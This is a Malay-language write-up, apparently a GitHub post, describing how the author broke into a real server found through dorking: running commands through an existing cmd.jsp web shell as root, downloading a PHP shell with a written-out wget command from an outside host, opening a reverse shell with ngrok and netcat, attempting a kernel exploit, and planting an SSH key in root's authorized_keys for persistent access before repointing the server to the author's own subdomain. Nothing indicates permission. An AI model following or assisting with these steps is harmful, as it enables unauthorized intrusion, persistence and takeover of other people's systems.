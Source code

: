 # Write-Up [WSO2 Management]

Assalamualaikum, so harini nak buat writeup dari PoC [WSO2 Management] kepada SSH(berserta Privilege Escalation).

Disini saya telah berjaya meng-eksploitasi satu urls dengan menggunakan teknik dorking.

![Screenshot_251](https://user-images.githubusercontent.com/21289340/233838651-b3cd945d-9286-4ab6-b4fe-d4181f012cfc.png)

Setelah saya berjaya meng-eksploitasi urls tersebut, saya terus mencuba mendapatkan user dengan menggunakan `whoami`.
Disini mungkin agak sedikit "LUCKY" apabila output yang tampil adalah "root".

![Screenshot_4](https://user-images.githubusercontent.com/21289340/233838875-c2a7ec20-1738-467d-9932-51794a527bfd.png)

Seperti biasa, saya akan mencuba untuk melakukan pencarian untuk mencari aplikasi yang tersedia seperti php, python, apache2, nginx, perl, wget dan curl.
Sebelumnya php dan apache2 tidak tersedia di dalam server. Kemudian saya cuba untuk menginstall secara direct melalui basic unix command disebabkan privilege yang telah ada iaitu 'root', di bawah ini adalah output ditampilkan setelah saya berjaya menginstall package tersebut.

![Screenshot_253](https://user-images.githubusercontent.com/21289340/233839227-11762819-8976-4c4d-bc08-20a7ba9787bb.png)
![Screenshot_243](https://user-images.githubusercontent.com/21289340/233839297-0b89acab-46b6-4613-87ae-6b9de6d89f8f.png)

Seterusnya, saya ingin membuat back-connect, kerana shell yang tersedia iaitu "cmd.jsp" tidak memuaskan dan mungkin jalan kerja terlalu banyak.
Lalu saya cuba memanggil php shell dengan menggunakan 'wget myshell.my/raw.txt -O corntoll.php'.
Dibawah ini adalah tampilan setelah saya berjaya memanggil file php tersebut.

![Screenshot_21](https://user-images.githubusercontent.com/21289340/233839663-58ee9510-a961-4cc2-bc8c-c2a0578e0724.png)

Dan dibawah ini adalah tampilan setelah saya berjaya mengexecute corntall.php

![Screenshot_254](https://user-images.githubusercontent.com/21289340/233839590-01632a7d-dc0e-4bbd-a97d-d201aaae1a31.png)

Seterusnya, saya terus membuat back-connect/reverse php shell tersebut.

![Screenshot_9](https://user-images.githubusercontent.com/21289340/233839749-e4bccb03-9c77-4ac1-b215-eaf3cec304da.png)

Kemudian, saya listen seperti biasa menggunakan ngrok dan netcat.

![Screenshot_8](https://user-images.githubusercontent.com/21289340/233839800-99cfcaa3-3708-4872-b962-15c25c72f0f4.png)

Lalu, back-connect/reverse telah berjaya dilakukan.

![Screenshot_255](https://user-images.githubusercontent.com/21289340/233839892-6b79cd2f-5895-4893-808f-fcd58adbc4bc.png)

Disini saya memanggil fully interactive TTYs menggunakan Python3. Seterusnya, saya cuba mendapatkan user.

![Screenshot_11](https://user-images.githubusercontent.com/21289340/233840096-c8307a44-ab63-471e-a823-a2ff851d9f58.png)

Saya cuba untuk mendapatkan akses 'ROOT' daripada back-connect dengan cara mengeksploitasi CVE-2017-16995.

![Screenshot_22](https://user-images.githubusercontent.com/21289340/233840258-926a6fc8-2e39-4bc6-b3f3-35aa04bf1623.png)
![Screenshot_259](https://user-images.githubusercontent.com/21289340/233841650-b66761ff-bd93-4c88-8185-812c336bf98e.png)

Tetapi ianya gagal setelah saya compile dan cuba untuk meng-eksploitasi kernel tersebut. Mungkin disebabkan version kernel server dan CVE agak berbeza tiga angka?

![Screenshot_12](https://user-images.githubusercontent.com/21289340/233840359-1d9558f7-faa7-4a2b-9205-5ea091398a61.png)

Disini saya juga telah mencuba membuat 'chown' dan 'chmod +x' untuk memastikan CVE tersebut mendapatkan akses permission yang lengkap namun gagal.

![Screenshot_13](https://user-images.githubusercontent.com/21289340/233840470-60d57594-b262-499a-9daf-4b53210b1082.png)
![Screenshot_14](https://user-images.githubusercontent.com/21289340/233840477-807c9c8c-6342-4765-a23d-5b8df941dff3.png)

Jadi, saya cuba untuk menggunakan cara lain dimana saya telah mendapat idea untuk menggunakan SSH. Disini saya membuat semakan sama ada aplikasi SSH sedang berjalan ataupun tidak.

![Screenshot_247](https://user-images.githubusercontent.com/21289340/233840715-20e3c028-11ec-4d67-a65f-63c7a5e546b2.png)
![Screenshot_249](https://user-images.githubusercontent.com/21289340/233840646-9005c029-ff75-499b-a8ad-1b72e722f25a.png)

Ianya menunjukkan bahawa SSH tidak active, jadi saya mengaktifkan aplikasi SSH tersebut seperti yang dibawah.

![Screenshot_256](https://user-images.githubusercontent.com/21289340/233840612-69994d7e-1524-4b33-bdbd-02bb88ceef58.png)

Setelah servis SSH aktif, saya terus cuba login tapi gagal dengan error yang ditampilkan dibawah.

![Screenshot_257](https://user-images.githubusercontent.com/21289340/233840786-fc5f1aa2-d87f-46e2-abfd-0d84b9e32757.png)

Jadi, saya cuba untuk generate ssh-key sendiri dan menambah public key tersebut ke file '/root/.ssh/authorized_keys' seperti yang ditampilkan. 

![Screenshot_16](https://user-images.githubusercontent.com/21289340/233840923-3a8981d8-6b47-441f-b3a2-934018ec87d2.png)

Lalu, saya terus cuba untuk login daripada console Powershell.

![Screenshot_17](https://user-images.githubusercontent.com/21289340/233840965-ef26b465-0493-47d0-90eb-e3a0cd466a76.png)

Apabila melihat login SSH telah berjaya, saya terus melakukan semakan user menggunakan 'whoami'.

![Screenshot_18](https://user-images.githubusercontent.com/21289340/233841040-f98a4bd4-a159-462b-bc56-2841b967ef4c.png)

"BOOM!" root. Bukan sahaja akses root, malah saya juga telah mendapatkan akses direct kepada SSH.
Sekarang ianya telah menjadi LABORATORY peribadi saya. Server itu juga telah dipointing kepada sub-domain saya sendiri.

![Screenshot_260](https://user-images.githubusercontent.com/21289340/233841801-2a15d8f2-9145-4da7-9df6-91d32e67b6b3.png)
![Screenshot_19](https://user-images.githubusercontent.com/21289340/233841860-723b822d-6d1a-4832-ab1a-7fe7f367c295.png)

Setelah melakukan penyiasatan dengan lebih lanjut, saya mendapati bahawa server tersebut menggunakan Tomcat Apache, dimana ianya menggunakan Java.
Disitu, 'cmd.jsp' telah di eksploitasi untuk mendapatkan akses SSH root. 

BIG THANKS TO PARI MALAM.

